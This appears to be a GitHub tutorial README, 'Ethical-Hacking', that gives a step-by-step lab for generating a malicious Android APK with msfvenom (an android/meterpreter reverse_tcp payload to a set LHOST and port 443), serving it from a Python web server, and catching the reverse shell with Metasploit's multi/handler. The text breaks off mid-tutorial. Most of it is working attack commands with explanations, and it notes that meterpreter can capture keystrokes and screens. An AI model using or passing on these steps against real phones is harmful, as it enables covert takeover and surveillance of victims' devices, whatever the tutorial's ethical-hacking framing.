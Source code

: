 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
┌──(kali㉿CarlosSantos)-[~]
└─$ `sudo -s`


#### We check what our hostname is
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `hostname -I`



 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***

1. *`android/meterpreter/reverse_tcp`: Specifies the payload to use in the APK file. In this case, the `android/meterpreter/reverse_tcp` payload is used, which allows establishing a reverse TCP connection on Android devices.*

1. *LHOST=172.27.4.239: Specifies the IP address of the host (the machine running the server) to which the Metasploit payload will connect. In this case, the IP address is 172.27.4.239*

1. *LPORT=443: Specifies the port number on the host that the Metasploit payload will connect to. In this case, the port is 443, which is commonly used for secure HTTPS connections.*

1. **-o** *practice.apk: Especifica el nombre del archivo de salida, es decir, el nombre del archivo APK malicioso que se generará. En este caso, el archivo se llamará practice.apk.*


#### We create a local server with python3
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.
   >Install practice.apk in your android


#### Running the msfconsole
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `msfconsole`

1. *Running the msfconsole command will open an interactive console where you can use a wide range of Metasploit functionality. From this console, you can load and configure modules, select and configure exploits, scan and enumerate systems, launch attacks, and perform penetration testing on networks and systems.*

#### Running the /multi/handler
msf6 >  `use /multi/handler`
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

1. *This command is used to select the multi/handler module, which is a special module in Metasploit that is used to handle reverse shell or meterpreter connections. That is, it is the module that listens to and handles incoming connections from payloads that have been executed on the target systems.*


#### set payload
msf6 exploit(multi/handler) > `set payload android/meterpreter reverse_tcp`
payload => android/meterpreter/reverse_tcp

1. *The set payload android/meterpreter/reverse_tcp command is used in the msfconsole command line interface of the Metasploit Framework.*

**This command configures the payload to be used in the currently selected module. In this case, the payload is android/meterpreter/reverse_tcp.*

**Here is the meaning of each part of the payload:*

**android: Indicates that the payload is designed for Android systems.*
**meterpreter: It is an advanced and versatile Metasploit shell that provides a number of features, such as the ability to migrate between different processes, load scripts and extensions at runtime, and capture keyboard and screen input.reverse_tcp: This is a type of connection in which the target machine establishes the connection back to the attacker (i.e. "reverse"), which can be useful for bypassing certain types of firewalls.*
####

